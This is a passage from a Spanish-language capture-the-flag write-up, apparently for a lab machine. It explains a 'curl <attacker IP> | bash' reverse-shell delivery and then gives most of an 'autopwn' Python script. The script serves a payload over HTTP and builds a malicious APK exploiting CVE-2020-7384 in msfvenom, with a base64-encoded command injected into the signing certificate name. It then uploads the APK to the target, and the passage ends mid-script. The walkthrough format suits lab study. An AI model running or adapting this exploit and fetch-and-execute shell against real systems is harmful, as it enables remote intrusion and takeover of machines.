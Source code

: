 ````'curl 10.10.14.3 | bash'```` hará que la máquina victima me envíe una petición HTTP a mi servidor. Yo estaré corriendo un servidor HTTP de python compartiendo un fichero *index.html* malicioso que contendrá un sentencia en bash, que será una *reverse shell*. El ```| bash``` es para que este código sea interpretado del lado de la máquina y me envíe la consola interactiva. También deberé de estar en escucha por el puerto 443 para recibirla.
Como extra, he creado un *script* *Autopwn* que te automatiza toda la intrusión y toda la escalada. Simplemente le tienes que especificar tu ip de la forma ```python3 autopwn.py 10.10.14.8```

```python
#!/usr/bin/python3

from pwn import *
import signal,sys,requests,pdb,threading, subprocess, tempfile, os, http.server, socketserver
from base64 import b64encode 

#Ctrl+C 
def def_handler(sig, frame):
    print("Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

#Variables globales
url = "http://10.10.10.226:5000/"
burp = {'http': 'http://localhost:8080'}
ip=''

def runHTTPServer():
    PORT = 80
    Handler = http.server.SimpleHTTPRequestHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    httpd.serve_forever()

def makeRequest():

    content = open("evil.apk", "rb")
    file_to_upload = {'template':('evil.apk',content,'application/vnd.android.package-archive')}
    
    data = {
            'os': 'android',
            'lhost': ip,
            'action': 'generate'
            }
    r = requests.post(url, files = file_to_upload, data=data) 

def apkcreate():
    
    ## Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
    ## Exploit Author: Justin Steven
    ## Vendor Homepage: https://www.metasploit.com/
    ## Software Link: https://www.metasploit.com/
    ## Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
    ## CVE : CVE-2020-7384
    
    payload = f'curl {ip} | bash'
    print(payload)
    
    ## b64encode to avoid badchars (keytool is picky)
    payload_b64 = b64encode(payload.encode()).decode()
    dname = f"CN='|echo {payload_b64} | base64 -d | sh #"

    #tmpdir = tempfile.mkdtemp()
    apk_file = os.path.join("evil.apk")
    empty_file = os.path.join("empty")
    keystore_file = os.path.join("signing.keystore")
    storepass = keypass = "password"
    key_alias = "signing.key"

````